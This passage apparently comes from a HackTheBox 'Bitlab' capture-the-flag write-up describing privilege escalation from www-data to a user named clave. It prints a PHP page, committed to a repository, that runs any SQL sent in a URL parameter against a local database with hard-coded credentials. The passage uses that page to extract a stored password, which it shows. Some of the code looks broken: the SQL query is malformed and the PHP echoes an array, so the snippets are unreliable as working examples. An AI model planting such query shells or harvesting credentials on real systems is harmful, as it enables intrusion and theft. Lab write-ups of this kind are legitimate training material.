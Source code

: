     ```
    
    ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bitlab2.gif){: .align-center}
And we are root.

# Root Shell Method 2 (By Debugging the Remote Connect Binary)
## User Shell
First we have to escalate our privilege from `www-data` to `clave` to copy the binary.
We can do this by connecting to the `postgresql` database to retrieve the credentials of `clave`.

Using the following `php` code we can retrieve `clave` credentials.  
We have to commit this file to the `profile` repository and execute the query to retrieve the credentials.

```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
?>
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        $result = pg_query($db_connection, $_GET['cmd']);
        $row = pg_fetch_assoc($result);
        echo $row;
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
Query
```sql
from profile select *
```

And we get the following credentials.
```bash
username: clave
password: c3NoLXN0cjBuZy1wQHNz==
```
This looks like a base64 encoded string, but we have to use the password without decoding it.  
Once we login using this we can copy the binary using `netcat`
